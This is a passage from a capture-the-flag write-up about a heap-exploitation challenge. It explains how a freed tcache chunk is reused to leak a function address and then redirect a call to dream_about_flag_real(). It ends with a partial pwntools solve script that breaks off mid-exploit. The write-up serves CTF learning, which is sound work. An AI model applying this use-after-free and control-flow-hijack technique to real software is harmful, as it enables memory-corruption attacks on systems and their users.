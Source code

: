 Now, we go into the notes menu and write a note of size 16. `malloc(0x10)` is called and the heap will rounmd this up to `0x20`. The heap first looks into the tcache, finds that there is a freed chunk and allocates it, thus the allocated buffer would contain our dream address.

We simply write 16 bytes of data into the note (which also prevents the inclusion of a NULL byte that would prevent us from seeing the dream address), thus our note would be `DATADATADATADATA<3rd_dream_addr>`.

We use the `read_note()` functionality to read our note, which would result in the dream address being leaked. From here, we can now compute the address of `dream_about_flag_real()`!

Now that we have `dream_about_flag_real()`'s address, we perform a reverse operation;

From notes, we `malloc(0x18)` by indicating we would like to write 24 bytes into our note. This gets rounded up to `malloc(0x20)`. We pad our note by writing 16 bytes and then the address of `dream_about_flag_real()`, then delete this note, resulting in a new tcache entry of chunk size `0x20`. As usual the first 16 bytes are gone replaced with the chunk header, but `dream_about_flag_real()` is preserved.

We pivot back to dreams and malloc 3 dreams. The tcache chunk containing `dream_about_flag_real()` is then allocated. From here, we simply write our first and second dreams, then call `start_dreaming()`, which would result in `dream_about_flag_real()` to be called and thus, we get our flag!

`solve.py`
```py
from pwn import *

p = process('./challenge')
gdb.attach(p, gdbscript='b *menu')
#p = remote("challs.nusgreyhats.org", 32833)

fake_flag = 0x000055555555585f
real_flag = 0x0000555555555765

p.recvuntil(b"> ") # menu
p.sendline(b"2") # start dream
p.recvuntil(b"> ") # dream
p.sendline(b"1") # add dream
p.recvuntil(b"to have? ") # how many dreams
p.sendline(b"3") # 3 dreams

# add_dream() default forces you to pick 1 dream
p.recvuntil(b"> ") # add which dream
p.sendline(b"1") # dream about valo
for i in range(2):
    p.recvuntil(b"> ") # dream menu
    p.sendline(b"1") # add dream
    p.recvuntil(b"> ") # add which dream
    p.sendline(b"4") # dream about fake flags

p.recvuntil(b"> ") # dream menu
p.sendline(b"2") # start dream

pause()
# now dreams[] is freed into tcache, size 0x20. The data of dream 3 is preserved

p.recvuntil(b"> ") # dream menu
p.sendline(b"3") # go back to menu
p.recvuntil(b"> ") # menu
p.sendline(b"1") # listen to class
p.recvuntil(b"> ")
p.sendline(b"1") # take note
p.recvuntil(b"note size: ")
p.sendline(b"16") # 16 bytes. malloc(16) digs into 0x20 sized tcache block so thats now used
p.recvuntil(b"note content: ")
```